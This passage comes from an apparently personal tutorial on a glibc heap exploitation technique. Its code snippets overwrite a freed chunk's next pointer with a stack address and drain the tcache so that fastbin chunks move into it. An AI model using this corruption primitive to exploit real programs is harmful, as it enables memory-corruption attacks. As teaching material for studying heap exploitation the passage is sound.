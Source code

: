 Okay, it will free the rest of the pointers into the fastbin to be cached. It will then create
a stack array and fill with garbage to store as the target we want to overwrite.

```c
  printf(
    "Now we use a vulnerability such as a buffer overflow or a use-after-free\n"
    "to overwrite the next pointer at address %p\n\n",
    victim
  );

  //------------VULNERABILITY-----------

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

  //------------------------------------
```

Next, we will leverage a "vulnerability" within the program to overwrite the next pointer to the
stack address. The victim chunk will now have a next pointer, that points to the stack.

```c
  printf(
    "The next step is to malloc(allocsize) 7 times to empty the tcache.\n\n"
  );

  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "Let's just print the contents of our array on the stack now,\n"
    "to show that it hasn't been modified yet.\n\n"
  );

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }
```

Next, it will completely empty out the tcache.

Some other functionality that the fastbin serves, that I had not mentions prior is that,
while fastbin is not empty and tcache not full, copy chunks. So it will copy the chunks
from the fastbin, into the tcache if everything has been cleared out. There was no mention
of this anywhere within any of the posts I had read, and I should probably include it in the
main section of the fastbin explanation.

Yes I will do that now, if you made it this far, i congratulate you since this is probably
pretty confusing. This is past me, speaking to future you where I have already updated the fastbin
section. Anyways, just a little reminder then.

I am tired, and my mind is getting a little bit wonky but I will try my best to continue the
explanation as best I can.
